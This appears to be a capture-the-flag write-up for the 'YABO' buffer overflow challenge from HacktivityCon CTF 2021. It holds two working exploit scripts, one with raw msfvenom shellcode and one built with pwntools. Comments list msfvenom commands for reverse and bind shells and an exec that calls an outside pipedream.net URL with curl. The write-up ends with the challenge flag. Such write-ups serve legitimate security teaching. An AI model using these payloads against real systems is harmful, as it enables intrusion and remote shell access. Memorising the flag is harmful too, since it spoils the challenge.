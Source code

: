 ```yaml
---
name: YABO - Yet Another Buffer Overflow (2021)
event: HacktivityCon CTF 2021
category: Pwn
description: Writeup for YABO - Yet Another Buffer Overflow (pwn) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# YABO - Yet Another Buffer Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=3195s "HacktivityCon 2021: YABO - Yet Another Buffer Overflow")

## Challenge Description

> Some certifications feature a basic windows buffer overflow. Is the linux version really that different?

## Solution

#### msfvenom_payload.py

```py
import socket

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 9999))

print(client.recv(1024))

# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b '\x00' -f python
# msfvenom -p linux/x86/exec CMD="curl https://en4i3omt29wvgco.m.pipedream.net" -b '\x00' -f python
# msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
# msfvenom -p linux/x86/read_file PATH=flag.txt FD=4 -b '\x00' -f python

# FD = 4
buf = b"A" * 1044
buf += b"\xe2\x92\x04\x08"  # ropper found JMP ESP
buf += b"\x90" * 10
buf += b"\xd9\xec\xd9\x74\x24\xf4\x5a\x31\xc9\xbe\x8b\x25\xd9"
buf += b"\x0b\xb1\x12\x83\xc2\x04\x31\x72\x15\x03\x72\x15\x69"
buf += b"\xd0\x32\x3d\xd5\x1e\xc5\x42\x25\x7a\xf4\x8b\xe8\xfc"
buf += b"\x7f\xc8\x4a\xff\x7f\xcf\xaa\x89\x67\x46\x53\x33\x67"
buf += b"\x49\xa3\x44\xa5\xe9\x2a\x86\x8d\xee\x2c\x07\xee\x55"
buf += b"\x28\x07\xee\xa9\xfd\x87\x56\xa8\xfd\x87\xa6\x10\xfd"
buf += b"\x87\xa6\x66\x30\x07\x4e\xa3\x35\xf7\x70\x4a\xa5\x69"
buf += b"\xe8\xbd\x41\x12\x82\xc1"

client.send(buf)
print(client.recv(1024))
client.close()
```

#### pwntools_exploit.py

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './yabo'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 1044

jmp_esp = 0x80492e2

# Start program
io = start()

# Build the payload
payload = flat([
    asm('nop') * offset,
    jmp_esp,
    asm(shellcraft.cat('flag.txt', fd=4))
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)

# Got Shell?
io.interactive()
```

Flag: `flag{2f20f16416a066ca5d4247a438403f21}`
